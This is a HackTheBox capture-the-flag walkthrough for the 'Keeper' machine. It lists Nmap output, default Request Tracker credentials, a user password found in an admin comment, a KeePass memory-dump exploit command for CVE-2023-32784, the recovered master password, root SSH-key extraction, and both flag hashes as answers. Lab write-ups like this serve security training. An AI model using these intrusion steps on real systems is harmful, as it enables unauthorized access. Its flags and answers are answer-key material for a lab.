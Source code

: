 # HackTheBox Walkthrough - Machine: Keeper

**Target IP**: 10.129.229.41  
**Difficulty**: Easy  
**Objective**: Gain access by exploiting KeePass vulnerability and privilege escalation.

---

## Task 1: How many open TCP ports are listening on Keeper?

Nmap results:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```

**Answer**: `2`

---

## Task 2: What is the default password for the default user on Request Tracker (RT)?

Searched for default credentials:  
**Username**: root  
**Password**: password

**Answer**: `password`

---

## Task 3: Besides root, what other user is in RT?

Dashboard → Admin → Users  
Found another user:
- **Username**: lnorgaard
- **Real Name**: Lise Nørgaard

**Answer**: `lnorgaard`

---

## Task 4: What is the lnorgaard user's password on Keeper?

Checked user info and found in "Comments about this user":
> Initial password set to Welcome2023!

**Answer**: `Welcome2023!`

---

## Submit User Flag

SSH as lnorgaard:
```bash
ssh lnorgaard@10.129.229.41
Password: Welcome2023!
cat user.txt
```

**User Flag**: `55372721174d858204e1c2fa90933e97`

---

## Task 6: What is the 2023 CVE ID for KeePass memory dump vulnerability?

Google search revealed:
> CVE-2023-32784

**Answer**: `CVE-2023-32784`

---

## Task 7: What is the master password for passcodes.kdbx?

Used KeePass memory dump analysis tool:
```bash
python3 exploit.py -f KeePassDumpFull.dmp
```

Resulted password:
> `rødgrød med fløde`

**Answer**: `rødgrød med fløde`

---

## Task 8: What is the first line of the "Notes" section for the entry in the database containing a private SSH key?

Opened database with:
```bash
kpcli --kdb passcodes.kdbx
Password: rødgrød med fløde
```

Checked:
```bash
show 0
```

**First line in Notes**:
> `PuTTY-User-Key-File-3: ssh-rsa`

---

## Submit Root Flag

Used extracted private key to SSH as root:
```bash
chmod 600 keeper.ppk
puttygen keeper.ppk -O private-openssh -o id_rsa_keeper
ssh -i id_rsa_keeper root@10.129.229.41
cat /root/root.txt
```

**Root Flag**: `5fd606db0349584fae3155c7bf7468fc`

---
